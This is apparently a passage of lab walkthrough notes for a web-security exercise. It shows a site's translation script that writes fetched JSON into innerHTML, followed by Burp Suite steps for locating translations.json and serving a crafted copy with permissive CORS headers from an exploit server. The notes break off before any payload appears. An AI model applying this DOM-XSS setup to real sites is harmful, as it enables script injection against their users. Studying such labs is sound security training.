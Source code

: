 ```bash

function initTranslations(jsonUrl)
{
    const lang = document.cookie.split(';')
        .map(c => c.trim().split('='))
        .filter(p => p[0] === 'lang')
        .map(p => p[1])
        .find(() => true);

    const translate = (dict, el) => {
        for (const k in dict) {
            if (el.innerHTML === k) {
                el.innerHTML = dict[k];
            } else {
                el.childNodes.forEach(el_ => translate(dict, el_));
            }
        }
    }

    fetch(jsonUrl)
        .then(r => r.json())
        .then(j => {
            const select = document.getElementById('lang-select');
            if (select) {
                for (const code in j) {
                    const name = j[code].name;
                    const el = document.createElement("option");
                    el.setAttribute("value", code);
                    el.innerText = name;
                    select.appendChild(el);
                    if (code === lang) {
                        select.selectedIndex = select.childElementCount - 1;
                    }
                }
            }

            lang in j && lang.toLowerCase() !== 'en' && j[lang].translations && translate(j[lang].translations, document.getElementsByClassName('maincontainer')[0]);
        });
}

Right-click current_website.com -> Engagement tools -> Discover content -> Session is not running
Find:
Go to: Target -> Site map -> current_website.com -> resources -> json -> translation.json
Send to repeater
Send
Go to: "Go to exploit server"
File:

/resources/json/translations.json

Head:

HTTP/1.1 200 OK
Content-Type: application/javascript; charset=utf-8
Access-Control-Allow-Origin: *

Body:

{
    "en": {
        "name": "English"
    },
```